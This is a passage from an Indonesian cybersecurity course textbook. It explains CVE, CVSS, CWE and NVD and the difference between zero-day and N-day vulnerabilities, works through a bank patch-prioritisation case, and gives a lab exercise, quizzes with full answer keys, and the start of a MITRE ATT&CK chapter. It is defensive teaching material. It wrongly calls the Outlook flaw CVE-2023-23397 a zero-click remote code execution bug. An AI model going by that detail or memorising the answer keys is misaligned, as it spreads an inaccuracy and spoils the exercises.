| 7.0 – 8.9 | High | Patch dalam 7-14 hari |
| 9.0 – 10.0 | Critical | Patch segera (24-72 jam) |

⚠️ **Risiko Kesalahan Interpretasi — CVSS Skor Bukan Satu-Satunya Faktor:**

CVSS Base Score adalah ukuran karakteristik intrinsik kerentanan — seberapa parah kerentanan *jika berhasil dieksploitasi*. Namun, ini **bukan** ukuran risiko aktual untuk organisasi Anda karena:

1. **CVSS tidak mempertimbangkan apakah sistem Anda terekspos** — Kerentanan CVSS 10.0 pada software yang tidak digunakan tidak relevan
2. **CVSS tidak mempertimbangkan apakah exploit tersedia** — Kerentanan CVSS 9.0 tanpa exploit publik lebih aman dari CVSS 7.0 dengan exploit matang
3. **CVSS tidak mempertimbangkan konteks bisnis** — Sistem non-kritis dengan CVSS 9.0 mungkin kurang prioritas dari sistem kritis dengan CVSS 6.5

**2. Temporal Metrics (Skor Temporal)**
Mencerminkan faktor yang dapat berubah seiring waktu:
- **Exploit Code Maturity (E)**: Apakah exploit tersedia dan seberapa matang? (Not Defined, Unproven, Proof-of-Concept, Functional, High)
- **Remediation Level (RL)**: Apakah ada workaround atau patch resmi? (Not Defined, Official Fix, Temporary Fix, Workaround, Unavailable)
- **Report Confidence (RC)**: Seberapa yakin kita tentang detail kerentanan? (Not Defined, Unknown, Reasonable, Confirmed)

**3. Environmental Metrics (Skor Lingkungan)**
Disesuaikan dengan konteks organisasi spesifik:
- **Modified Base Metrics**: Sesuaikan metrik base berdasarkan konfigurasi lokal
- **Confidentiality/Integrity/Availability Requirement**: Seberapa penting aspek CIA ini untuk sistem Anda?

#### 4.2.2 CVSS v4.0 — Inovasi dan Perubahan

CVSS v4.0 (dirilis Oktober 2023) memperkenalkan beberapa perubahan signifikan:

- **Granularitas lebih tinggi**: Menambahkan metrik Attack Requirements (AT) dan modifikasi metrik lainnya
- **Skor tambahan**: Threat Score (TS) yang menggabungkan Exploit Maturity secara lebih formal
- **Konteks OT/ICS/Safety**: Menambahkan metrik Safety (S) untuk sistem OT dan safety-critical
- **Kode Nomenclatur**: `CVSS-BT` (Base + Threat), `CVSS-BE` (Base + Environmental), `CVSS-BTE` (semua)

📌 **Catatan Praktis:** Sebagian besar database dan tools saat ini masih menggunakan CVSS v3.1. CVSS v4.0 sedang dalam fase adopsi. Praktisi harus familiar dengan keduanya.

### 4.3 CWE: Common Weakness Enumeration

> **Definisi:** CWE (*Common Weakness Enumeration*) adalah daftar kategorisasi komunitas tentang kelemahan perangkat lunak dan hardware yang dapat mengakibatkan kerentanan keamanan.

**Perbedaan CVE vs CWE:**
- **CVE**: Mengidentifikasi kerentanan *spesifik* dalam produk *tertentu* (misalnya: buffer overflow di Microsoft Windows)
- **CWE**: Mengklasifikasikan *jenis* kelemahan yang bersifat umum (misalnya: CWE-120 mendeskripsikan "Buffer Copy without Checking Size of Input")

**Mengapa CWE Penting:**
CWE berguna untuk:
1. **Analisis root cause**: Setelah insiden, CWE membantu mengidentifikasi jenis kelemahan yang mendasarinya
2. **Secure coding**: Developer dapat merujuk CWE untuk menghindari pola kelemahan yang sudah diketahui
3. **Vulnerability triage**: CWE membantu mengelompokkan kerentanan berdasarkan jenis dan merencanakan mitigasi sistemik

**CWE Top 25 Most Dangerous Software Weaknesses (2024):**

| Peringkat | CWE-ID | Nama | Contoh Bahasa |
|---|---|---|---|
| 1 | CWE-787 | Out-of-bounds Write | C, C++ |
| 2 | CWE-79 | Improper Neutralization of Input During Web Page Generation (XSS) | PHP, JavaScript |
| 3 | CWE-89 | Improper Neutralization of Special Elements used in SQL Command (SQL Injection) | PHP, Java, Python |
| 4 | CWE-416 | Use After Free | C, C++ |
| 5 | CWE-78 | OS Command Injection | Python, PHP, Perl |
| 6 | CWE-20 | Improper Input Validation | Semua bahasa |
| 7 | CWE-125 | Out-of-bounds Read | C, C++ |
| 8 | CWE-22 | Path Traversal | PHP, Python, Java |
| 9 | CWE-352 | Cross-Site Request Forgery (CSRF) | PHP, JavaScript |
| 10 | CWE-434 | Unrestricted Upload of File with Dangerous Type | PHP, Python |

**Hubungan CVE-CVSS-CWE:**
```
CVE-2021-44228 (Log4Shell)
├── CVSS Base Score: 10.0 (Critical)
│   └── AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
└── CWE-917: Improper Neutralization of Special Elements 
           used in an Expression Language Statement
    → Root cause: Log4j memproses input pengguna dalam 
      expression language ${jndi:...} tanpa sanitasi
```

### 4.4 NVD: National Vulnerability Database

> **Definisi:** NVD (*National Vulnerability Database*) adalah repositori data manajemen kerentanan berbasis standar pemerintah AS yang dikembangkan oleh NIST (National Institute of Standards and Technology).

**Peran NVD dalam Ekosistem:**
NVD adalah *enricher* dari data CVE — mengambil entri CVE yang relatif minimal dan menambahkan:
- **CVSS Scores**: Skor yang dihitung oleh analis NIST
- **CWE**: Klasifikasi jenis kelemahan
- **CPE (Common Platform Enumeration)**: Daftar produk dan versi yang terpengaruh, dalam format standar yang dapat dibaca mesin
- **References**: Tautan ke patch, advisory vendor, dan PoC

**Menggunakan NVD dalam Praktik:**

*Cara mengakses:*
- Web portal: `nvd.nist.gov`
- API: `services.nvd.nist.gov/rest/json/cves/2.0`

*Filter yang berguna:*
- `cvssV3Severity=CRITICAL` — hanya tampilkan kerentanan kritis
- `pubStartDate` / `pubEndDate` — filter berdasarkan tanggal publikasi
- `cpeName` — filter berdasarkan produk tertentu

**Sumber Kerentanan Tambahan:**
| Sumber | URL | Keunikan |
|---|---|---|
| NVD | nvd.nist.gov | Comprehensive, CVSS resmi NIST |
| CISA KEV Catalog | cisa.gov/known-exploited-vulnerabilities-catalog | Hanya kerentanan yang *sudah dieksploitasi* secara aktif |
| VulnDB | vulndb.cyberriskanalytics.com | Komersial, lebih cepat update |
| Exploit-DB | exploit-db.com | Database exploit dan PoC |
| Snyk Vulnerability DB | security.snyk.io | Fokus pada open-source dependencies |

### 4.5 Zero-Day vs N-Day Vulnerabilities

> **Zero-Day:** Kerentanan yang belum diketahui oleh vendor atau publik, sehingga belum ada patch yang tersedia. Disebut "zero-day" karena vendor memiliki "nol hari" untuk memperbaiki masalah sebelum dapat dieksploitasi.

> **N-Day:** Kerentanan yang sudah diketahui publik dan ada patchnya, tetapi sistem belum di-patch. "N" merujuk pada jumlah hari sejak kerentanan diungkapkan.

**Implikasi terhadap Manajemen Risiko:**

| Aspek | Zero-Day | N-Day |
|---|---|---|
| **Ketersediaan Patch** | Tidak ada | Tersedia |
| **Kemampuan Pertahanan** | Terbatas — bergantung pada defense-in-depth | Tinggi — patch harus segera diterapkan |
| **Penggunaan oleh Penyerang** | Nation-state APT (karena mahal dan langka) | Cybercriminal, script kiddies (karena murah dan banyak tersedia) |
| **Strategi Mitigasi** | Defense-in-depth, network segmentation, WAF, behavioral detection | Patch management, vulnerability scanning, virtual patching |
| **Nilai di Pasar Gelap** | Sangat tinggi (jutaan dolar untuk zero-day iOS) | Rendah-menengah |
| **Relevansi untuk Sebagian Besar Org** | Rendah (target APT tertentu) | **Sangat tinggi** — mayoritas breach menggunakan N-day |

📌 **Poin Kritis:** Menurut penelitian Rand Corporation, rata-rata umur zero-day sebelum ditemukan pihak lain adalah sekitar **6,9 tahun**. Namun, setelah zero-day diungkapkan (menjadi N-day), eksploitasi massal dimulai dalam hari atau jam. Ini berarti **N-day management adalah tantangan keamanan yang jauh lebih relevan** bagi sebagian besar organisasi daripada pertahanan terhadap zero-day.

**CISA Known Exploited Vulnerabilities (KEV) Catalog:**
CISA secara aktif memantau dan mempublikasikan daftar kerentanan yang sedang dieksploitasi secara aktif di dunia nyata. CISA mewajibkan lembaga federal AS untuk mempatch kerentanan dalam katalog ini dalam jangka waktu tertentu (biasanya 2 minggu untuk kritis). Katalog KEV adalah salah satu sumber prioritasi patch yang paling actionable yang tersedia secara gratis.

### 4.6 Siklus Hidup Kerentanan

```
[Kerentanan Diciptakan] → [Kerentanan Ditemukan] → 
[Responsible Disclosure / Koordinasi Vendor] → 
[Patch Dirilis] → [CVE Diterbitkan (NVD Analysis)] → 
[Exploit Berkembang] → [Eksploitasi Massal] → 
[Patch Diterapkan (akhirnya)]
```

**Vulnerability Disclosure Models:**

| Model | Deskripsi | Pro | Kontra |
|---|---|---|---|
| **Responsible Disclosure (Coordinated)** | Peneliti melaporkan ke vendor, menunggu patch sebelum mengungkap ke publik | Vendor memiliki waktu untuk patch; pengguna terlindungi | Vendor mungkin mengabaikan atau menunda terlalu lama |
| **Full Disclosure** | Peneliti langsung mengumumkan detail lengkap ke publik | Menekan vendor untuk patch cepat; membantu peneliti lain | Pengguna yang belum patch langsung terekspos |
| **Zero-Day Sale** | Peneliti menjual ke broker exploit (vendor, pemerintah, atau pasar gelap) | Secara finansial menguntungkan peneliti | Tidak ada patch; pengguna tidak terlindungi; etis dipertanyakan |
| **Bug Bounty** | Program formal vendor yang memberikan kompensasi untuk laporan kerentanan | Insentif untuk peneliti; vendor mendapat laporan sebelum publik | Program yang buruk dapat mendorong peneliti ke opsi lain |

---

## 5. Model atau Arsitektur

### 5.1 Vulnerability Management Lifecycle



### 5.2 CVSS Base Score Calculation — Faktor yang Mempengaruhi Skor



---

## 6. Contoh Terapan

### Studi Kasus: Analisis CVE dan Prioritasi Patch di Perusahaan Perbankan

**Konteks:**
Tim vulnerability management sebuah bank menerima laporan scan mingguan yang mengidentifikasi 847 kerentanan di berbagai sistem. Dengan kapasitas patch yang terbatas (tim 3 orang dapat menangani ~20 patch per minggu), tim harus memprioritaskan kerentanan mana yang ditangani terlebih dahulu.

**Tiga Contoh CVE yang Perlu Dianalisis:**

**CVE-1: CVE-2023-44487 (HTTP/2 Rapid Reset Attack)**
- *Deskripsi*: Kerentanan DoS dalam implementasi HTTP/2 yang memungkinkan penyerang membuat dan membatalkan stream secara cepat, menghabiskan sumber daya server
- *CVSS Base Score*: 7.5 (High)
- *Vector*: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H`
- *CWE*: CWE-400 (Uncontrolled Resource Consumption)
- *Sistem Terdampak*: Web server (nginx, Apache, Microsoft IIS) — bank memiliki 12 server web yang terekspos internet
- *Status Eksploitasi*: Aktif dieksploitasi (ada di CISA KEV catalog)
- *Patch*: Tersedia (N-day)

**CVE-2: CVE-2023-23397 (Microsoft Outlook Zero-Click RCE)**
- *Deskripsi*: Kerentanan dalam Microsoft Outlook yang memungkinkan penyerang mengeksekusi kode dari jarak jauh melalui email berbahaya — tanpa perlu korban membuka atau mengklik apa pun
- *CVSS Base Score*: 9.8 (Critical)
- *Vector*: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
- *CWE*: CWE-294 (Authentication Bypass by Capture-replay)
- *Sistem Terdampak*: Microsoft Outlook — semua 3.000 workstation karyawan
- *Status Eksploitasi*: Dieksploitasi oleh APT28 (Fancy Bear) dalam kampanye bertarget
- *Patch*: Tersedia (N-day)

**CVE-3: CVE-2021-34527 (PrintNightmare)**
- *Deskripsi*: Kerentanan dalam Windows Print Spooler yang memungkinkan privilege escalation ke SYSTEM
- *CVSS Base Score*: 8.8 (High)
- *Vector*: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`
- *CWE*: CWE-269 (Improper Privilege Management)
- *Sistem Terdampak*: Semua Windows Server dengan Print Spooler aktif — 45 server internal
- *Status Eksploitasi*: Ada exploit publik; digunakan dalam serangan ransomware
- *Patch*: Tersedia tetapi memerlukan reboot server

**Proses Prioritasi:**

| CVE | Base Score | Ada di KEV? | Eksposur | Business Impact | Prioritas |
|---|---|---|---|---|---|
| CVE-2023-23397 | 9.8 | Ya | Internet-facing (email gateway) | Sangat tinggi — RCE zero-click pada semua workstation | **1 — SEGERA** |
| CVE-2023-44487 | 7.5 | Ya | Internet-facing (12 web server) | Tinggi — DoS dapat mengganggu layanan banking online | **2 — Dalam 48 jam** |
| CVE-2021-34527 | 8.8 | Ya | Internal only (tidak terekspos internet) | Tinggi — privilege escalation, tetapi memerlukan akses internal | **3 — Dalam 1 minggu** |

**Keputusan:**
CVE-2023-23397 mendapat prioritas tertinggi meskipun eksposurnya hanya melalui email (bukan internet-facing service secara langsung), karena: (1) zero-click berarti tidak ada filter manusia, (2) semua workstation terdampak, dan (3) atribusi ke APT28 mengindikasikan serangan bertarget sangat mungkin.

---

## 7. Praktikum atau Aktivitas Terarah

### Praktikum 4.1: Analisis CVE Menggunakan NVD dan CVSS Calculator

**Tujuan Praktikum:**
Melatih kemampuan membaca, menginterpretasikan, dan menganalisis entri CVE dari NVD, menghitung skor CVSS, dan memprioritaskan respons berdasarkan risiko kontekstual.

**Prasyarat:**
- Akses ke nvd.nist.gov
- Akses ke first.org/cvss/calculator/3.1 (kalkulator CVSS resmi)
- Selesaikan Bab 4

**Lingkungan Lab:**
Browser web dengan akses internet. Tidak ada tool khusus diperlukan.

**Tugas:**

Analisis tiga CVE berikut menggunakan NVD dan CVSS Calculator:
1. CVE-2023-20198 (Cisco IOS XE)
2. CVE-2023-4966 (Citrix Bleed)
3. Satu CVE bebas yang Anda pilih dari CISA KEV Catalog (dipublikasikan dalam 6 bulan terakhir)

Untuk setiap CVE, isi tabel analisis berikut:

| Item | Detail |
|---|---|
| CVE ID | |
| Deskripsi Kerentanan (ringkasan teknis) | |
| CVSS Vector String (v3.1) | |
| Base Score | |
| Interpretasi Setiap Metrik | |
| CWE yang Terkait | |
| Produk yang Terdampak (CPE) | |
| Apakah Ada di CISA KEV? | |
| Status Eksploitasi | |
| Patch Tersedia? | |
| Rekomendasi Tindakan (berdasarkan analisis Anda) | |

**Langkah Kerja Tingkat Tinggi:**

1. Buka NVD dan cari masing-masing CVE
2. Baca deskripsi dan references yang tersedia
3. Buka kalkulator CVSS dan masukkan vector string untuk memverifikasi skor
4. Cek CISA KEV catalog untuk status eksploitasi
5. Baca minimal satu advisory vendor atau laporan analisis tambahan dari references
6. Lengkapi tabel analisis
7. Tulis rekomendasi prioritasi berdasarkan asumsi konteks: "Anda adalah security analyst di bank dengan 500 server dan 2.000 workstation Windows"

**Format Laporan:**
Gunakan Template Analisis CVE (Lampiran A.2).

**Kriteria Keberhasilan:**
- Interpretasi metrik CVSS yang akurat
- Identifikasi CWE yang benar
- Rekomendasi yang berbasis risiko (bukan hanya berdasarkan skor base)
- Pemahaman tentang perbedaan antara skor CVSS dan risiko aktual

⚠️ **Catatan Etika:**
Informasi CVE dan exploit yang tersedia publik digunakan semata-mata untuk analisis defensif. Mahasiswa dilarang mencoba mengeksploitasi kerentanan yang dianalisis, bahkan di lingkungan lab, kecuali dalam lingkungan yang secara eksplisit diotorisasi (isolated lab environment dengan mesin yang didedikasikan untuk tujuan ini).

---

## 8. Latihan Pemahaman

**Soal 1 (Pilihan Ganda)**

Vector string CVSS: `AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:N/A:N` menggambarkan kerentanan dengan karakteristik:

A. Dapat dieksploitasi dari jaringan, kompleksitas rendah, tidak butuh autentikasi, dampak tinggi pada semua CIA  
B. Dapat dieksploitasi dari jaringan, kompleksitas tinggi, butuh privilege rendah, hanya berdampak pada kerahasiaan  
C. Hanya dapat dieksploitasi secara fisik, kompleksitas tinggi, tidak butuh autentikasi  
D. Dapat dieksploitasi dari jaringan, kompleksitas rendah, butuh privilege tinggi, berdampak pada integritas saja  

---

**Soal 2 (Pilihan Ganda)**

Sebuah kerentanan SQL Injection dalam aplikasi web yang dikembangkan secara internal ditemukan dan diperbaiki sebelum sempat dilaporkan ke NVD. Jenis kelemahan yang paling tepat untuk mengklasifikasikannya adalah:

A. CVE  
B. CVSS  
C. CWE-89  
D. CPE  

---

**Soal 3 (Esai Singkat)**

Jelaskan mengapa CVSS Base Score tidak seharusnya menjadi satu-satunya faktor dalam memprioritaskan patch. Berikan tiga faktor tambahan yang harus dipertimbangkan dan jelaskan bagaimana setiap faktor dapat mengubah prioritas. (200 kata)

---

**Soal 4 (Interpretasi Diagram)**

Diberikan dua entri CVE:

**CVE-A:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` — Skor: 10.0 | Status KEV: Tidak ada | Produk: Software management tool yang tidak digunakan oleh organisasi Anda | Patch: Belum tersedia

**CVE-B:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` — Skor: 7.5 | Status KEV: Ada di KEV catalog | Produk: VPN gateway yang digunakan oleh semua karyawan untuk akses remote | Patch: Tersedia sejak 3 hari lalu

Mana yang harus diprioritaskan? Jelaskan dengan argumentasi berbasis risiko.

---

**Soal 5 (Perancangan Kontrol)**

Sebuah organisasi menemukan bahwa salah satu aplikasi web-nya rentan terhadap CWE-79 (Cross-Site Scripting/XSS) dan CWE-89 (SQL Injection) berdasarkan hasil vulnerability assessment. Patch resmi dari vendor belum tersedia (masih dalam proses pengembangan). Rekomendasikan **virtual patching** atau kontrol kompensasi yang dapat diterapkan segera untuk mengurangi risiko hingga patch tersedia.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus 1: Program Vulnerability Management di Perusahaan Energi

Sebuah perusahaan energi nasional (BUMN) memiliki infrastruktur IT yang sangat beragam: 200 server (mix Windows Server 2012-2022 dan Linux), 5.000 workstation Windows 10/11, 50 sistem OT/SCADA, dan 30 aplikasi web yang menghadap internet. Tim vulnerability management terdiri dari 4 orang.

Hasil scan terakhir menunjukkan:
- 2.340 kerentanan total
- 45 kerentanan Critical (CVSS ≥ 9.0), 12 di antaranya ada di CISA KEV
- 280 kerentanan High (CVSS 7.0-8.9)
- Rata-rata usia kerentanan Critical yang belum di-patch: 47 hari
- 3 sistem SCADA memiliki kerentanan High yang tidak dapat di-patch karena vendor tidak lagi mendukung

**Pertanyaan:**

1. **Desain Program (C4)**: Rancang program vulnerability management yang realistis untuk konteks di atas. Tentukan: (a) prioritasi kerentanan menggunakan framework yang tepat, (b) SLA patching untuk setiap level severity, (c) cara menangani sistem SCADA yang tidak dapat di-patch, dan (d) KPI untuk mengukur efektivitas program.

2. **Penanganan Risiko Residual (C5)**: Tiga sistem SCADA dengan kerentanan High tidak dapat di-patch. Evaluasi tiga opsi manajemen risiko yang mungkin (mitigasi teknis, isolasi, atau acceptance) dan rekomendasikan pendekatan yang paling tepat, dengan justifikasi berbasis risiko dan implikasi operasional.

---

## 10. Kunci Jawaban dan Pembahasan

### Soal 1 — Kunci Jawaban: **B**

**Jawaban Akhir:** B — Dapat dieksploitasi dari jaringan, kompleksitas tinggi, butuh privilege rendah, hanya berdampak pada kerahasiaan.

**Interpretasi Vector String:**
- `AV:N` → Attack Vector: **Network** — dapat dieksploitasi dari jaringan
- `AC:H` → Attack Complexity: **High** — membutuhkan kondisi khusus
- `PR:L` → Privileges Required: **Low** — membutuhkan privilege level rendah (pengguna biasa)
- `UI:N` → User Interaction: **None** — tidak butuh interaksi pengguna lain
- `S:U` → Scope: **Unchanged** — dampak tidak melampaui komponen rentan
- `C:H` → Confidentiality Impact: **High**
- `I:N` → Integrity Impact: **None**
- `A:N` → Availability Impact: **None**

**Mengapa Jawaban Lain Salah:**
- (A) Salah — Kompleksitas adalah *High*, bukan Low; dampak hanya pada Confidentiality
- (C) Salah — AV:N berarti *Network*, bukan Physical
- (D) Salah — PR:L berarti butuh privilege *rendah*, bukan tinggi; dampak pada Confidentiality, bukan Integrity

---

### Soal 2 — Kunci Jawaban: **C. CWE-89**

**Jawaban Akhir:** C

**Penjelasan Teoritis:**
CWE (Common Weakness Enumeration) adalah klasifikasi untuk *jenis kelemahan* dalam kode, bukan kerentanan spesifik dalam produk tertentu. SQL Injection diklasifikasikan sebagai CWE-89: "Improper Neutralization of Special Elements used in an SQL Command."

Kerentanan ini tidak mendapat CVE karena CVE diperuntukkan bagi kerentanan dalam produk yang diidentifikasi secara publik — kerentanan internal yang diperbaiki secara privat tidak memerlukan CVE.

**Mengapa Jawaban Lain Salah:**
- (A) CVE mengidentifikasi kerentanan spesifik di produk yang dikenal, bukan jenis kelemahan umum
- (B) CVSS adalah sistem scoring, bukan klasifikasi jenis kelemahan
- (D) CPE adalah standar untuk mengidentifikasi produk dan versi yang terpengaruh

---

### Soal 3 — Panduan Jawaban

**Tiga Faktor Tambahan selain CVSS Base Score:**

1. **Status Eksploitasi Aktif (CISA KEV)**: Kerentanan CVSS 7.0 yang aktif dieksploitasi di dunia nyata jauh lebih berbahaya dari kerentanan CVSS 9.5 yang belum ada exploit-nya. CISA KEV Catalog mengidentifikasi kerentanan yang sudah dikonfirmasi dieksploitasi — ini adalah sinyal prioritas tertinggi.

2. **Eksposur Sistem dalam Konteks Organisasi**: CVSS Base Score tidak mempertimbangkan apakah sistem yang rentan terekspos internet atau terisolasi secara internal. Kerentanan CVSS 8.0 pada server yang terhubung langsung ke internet jauh lebih prioritas dari kerentanan CVSS 9.0 pada server internal yang hanya dapat diakses dari jaringan terbatas.

3. **Nilai Bisnis Sistem yang Terdampak**: Kerentanan pada sistem yang memproses transaksi keuangan atau menyimpan data sensitif memiliki dampak bisnis yang jauh lebih besar dari kerentanan pada sistem pengujian atau development. Risk = Likelihood × Impact — CVSS mengukur komponen likelihood, tetapi impact harus ditentukan oleh konteks bisnis.

---

### Soal 4 — Panduan Jawaban

**CVE-B harus diprioritaskan lebih tinggi.**

**Argumentasi:**

CVE-A memiliki skor lebih tinggi (10.0 vs 7.5) dan sifat yang sangat berbahaya (Scope:Changed, semua CIA High). Namun, dua faktor krusial membuatnya kurang prioritas:
1. Produk yang terdampak tidak digunakan oleh organisasi — tidak ada eksposur
2. Belum ada patch — tidak ada tindakan langsung yang dapat diambil selain monitoring

CVE-B memiliki skor lebih rendah (7.5), tetapi:
1. VPN gateway digunakan oleh SEMUA karyawan — eksposur sangat tinggi
2. Ada di CISA KEV — dikonfirmasi sedang dieksploitasi secara aktif
3. Patch sudah tersedia sejak 3 hari lalu — ada tindakan langsung yang dapat dilakukan

**Kesimpulan:** Risiko aktual = Likelihood × Impact × Exposure. CVE-B memiliki kombinasi likelihood tinggi (aktif dieksploitasi), impact tinggi (akses ke semua akun remote), dan exposure tinggi (semua karyawan). CVE-A memiliki dampak potensial tinggi tetapi tidak relevan karena produk tidak digunakan.

---

### Soal 5 — Panduan Jawaban

**Virtual Patching dan Kontrol Kompensasi untuk CWE-79 (XSS) dan CWE-89 (SQL Injection):**

**Web Application Firewall (WAF):**
Deploy WAF dengan ruleset yang mendeteksi dan memblokir payload XSS dan SQL injection. ModSecurity dengan OWASP Core Rule Set (CRS) dapat diterapkan sebagai reverse proxy di depan aplikasi. Ini adalah virtual patch yang paling efektif — memfilter input berbahaya sebelum mencapai aplikasi.

**Input Validation dan Output Encoding (Application Level):**
Jika memungkinkan (akses ke kode meski belum ada patch resmi), tambahkan validasi input sisi server dan encoding output sisi server secara manual sebagai patch sementara.

**Database Privilege Hardening:**
Untuk SQL Injection: pastikan akun database yang digunakan aplikasi hanya memiliki privilege minimum — tidak boleh DROP, CREATE, atau GRANT. Ini membatasi dampak SQL injection yang berhasil.

**Content Security Policy (CSP) Header:**
Untuk XSS: tambahkan CSP header yang membatasi sumber script yang diizinkan: `Content-Security-Policy: default-src 'self'; script-src 'self'`. Ini mengurangi dampak XSS meskipun tidak mencegah injeksi itu sendiri.

**Monitoring dan Alerting:**
Aktifkan alerting di WAF dan SIEM untuk pola serangan XSS dan SQL injection — memungkinkan respons cepat jika serangan berhasil melewati filter.

---

## 11. Ringkasan Bab

Bab 4 membangun kemampuan untuk bekerja dengan ekosistem standar kerentanan yang digunakan secara universal dalam industri keamanan siber. CVE menyediakan identifikasi unik; CVSS memberikan cara standar untuk mengukur keparahan; CWE mengklasifikasikan jenis kelemahan mendasar; dan NVD menyatukan semuanya dalam repositori yang dapat dicari secara programatik.

Pemahaman kritis yang paling penting dari bab ini adalah bahwa CVSS Base Score adalah titik awal, bukan keputusan akhir. Prioritas patch yang efektif harus mempertimbangkan: apakah ada eksploitasi aktif (CISA KEV), seberapa terekspos sistem dalam konteks spesifik organisasi, nilai bisnis sistem yang terdampak, dan ketersediaan mitigasi sementara.

Perbedaan antara zero-day dan N-day menegaskan bahwa sebagian besar organisasi menghadapi ancaman yang datang dari kerentanan yang sudah diketahui dan sudah ada patchnya — bukan dari zero-day eksotis yang eksklusif untuk target APT. Program vulnerability management yang efektif adalah pertahanan paling efektif terhadap mayoritas serangan nyata yang terjadi hari ini.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:**
Seorang peneliti keamanan independen Indonesia menemukan zero-day kritis dalam aplikasi perbankan yang digunakan oleh 50 bank nasional. Dia menawarkan untuk menjual informasi ini kepada broker yang akan menjualnya ke pemerintah asing atau ke dark market jika tidak mendapat respons dari vendor dalam 7 hari. Anda adalah CISO bank yang menerima laporan ini. Apa langkah yang Anda ambil? Bagaimana Anda menyeimbangkan kewajiban hukum (melaporkan ke OJK/BSSN), kebutuhan bisnis (mempatch secepat mungkin), dan tekanan dari peneliti?

**Pertanyaan Refleksi 2:**
CVSS Base Score adalah standar yang diterima secara global, tetapi memiliki keterbatasan yang signifikan untuk prioritasi patch dalam konteks lokal. Jika Anda diminta merancang sistem scoring alternatif yang lebih relevan untuk konteks industri perbankan Indonesia, faktor apa yang akan Anda tambahkan? Bagaimana Anda memastikan sistem tersebut dapat dioperasionalkan oleh tim dengan sumber daya terbatas?

**Pertanyaan Refleksi 3:**
Berdasarkan data bahwa rata-rata waktu patch untuk kerentanan kritis adalah 60 hari, sementara eksploitasi bisa dimulai dalam hari, apakah ada argumen etis bahwa vendor perangkat lunak yang rilis patch lambat atau yang menggunakan software end-of-life harus bertanggung jawab secara hukum atas kerusakan akibat serangan yang mengeksploitasi kerentanan mereka? Bagaimana regulasi semacam ini dapat diterapkan di Indonesia?

---


---

# BAB 5 — MITRE ATT&CK FRAMEWORK: TAKTIK, TEKNIK, DAN PROSEDUR

**Pertemuan:** 5  
**Sub-CPMK:** Sub-CPMK.2  
**CPMK:** CPMK.2  
**Evaluasi:** Eval-2 (Pemetaan ATT&CK, 10%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 5, mahasiswa mampu:

- Menjelaskan struktur dan tujuan MITRE ATT&CK Framework sebagai bahasa standar untuk mendeskripsikan perilaku penyerang.
- Mengidentifikasi dan mendeskripsikan 14 taktik dalam ATT&CK Enterprise Matrix.
- Memetakan teknik dan sub-teknik yang digunakan dalam skenario serangan ke taktik ATT&CK yang sesuai.
- Menggunakan ATT&CK Navigator untuk visualisasi dan analisis coverage.
- Menerapkan ATT&CK untuk perencanaan deteksi, threat hunting, dan evaluasi kesenjangan kontrol defensif.

*Kaitan OBE: Sub-CPMK.2 → CPMK.2 → IK-5.a → CPL5 → Eval-2*

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    ATT["MITRE ATT&CK Framework"] --> Struct["Struktur"]
    ATT --> Use["Penggunaan"]
    
    Struct --> Matrix["ATT&CK Matrix\n(Enterprise, Mobile, ICS)"]
    Struct --> Tactics["14 Taktik\n(TA0001-TA0043)"]
    Struct --> Tech["Teknik & Sub-Teknik\n(T-XXXX.XXX)"]
    Struct --> Proc["Prosedur\n(Implementasi Spesifik)"]
    Struct --> Groups["Groups\n(Profil APT)"]
    Struct --> Software["Software\n(Malware & Tools)"]
    Struct --> Mitigations["Mitigations\n(Kontrol Defensif)"]
    Struct --> DataSources["Data Sources\n(Sumber Deteksi)"]
    
    Use --> TH["Threat Hunting\n(Proaktif mencari TTP)"]
    Use --> DetPlan["Detection Planning\n(Coverage mapping)"]
    Use --> RedTeam["Red Team\n(Simulasi TTP)"]
    Use --> GapAnal["Gap Analysis\n(Kontrol defensif)"]
    Use --> CTI["Cyber Threat Intelligence\n(Profil aktor ancaman)"]
    
    Tactics --> Init["Initial Access\nTA0001"]
    Tactics --> Exec["Execution TA0002"]
    Tactics --> Pers["Persistence TA0003"]
    Tactics --> PrivEsc["Privilege Escalation TA0004"]
    Tactics --> Def["Defense Evasion TA0005"]
    Tactics --> Cred["Credential Access TA0006"]
    Tactics --> Disc["Discovery TA0007"]
    Tactics --> Lat["Lateral Movement TA0008"]
    Tactics --> Coll["Collection TA0009"]
    Tactics --> C2["C2 TA0011"]
    Tactics --> Exf["Exfiltration TA0010"]
    Tactics --> Imp["Impact TA0040"]
```

---

## 3. Pengantar Kontekstual

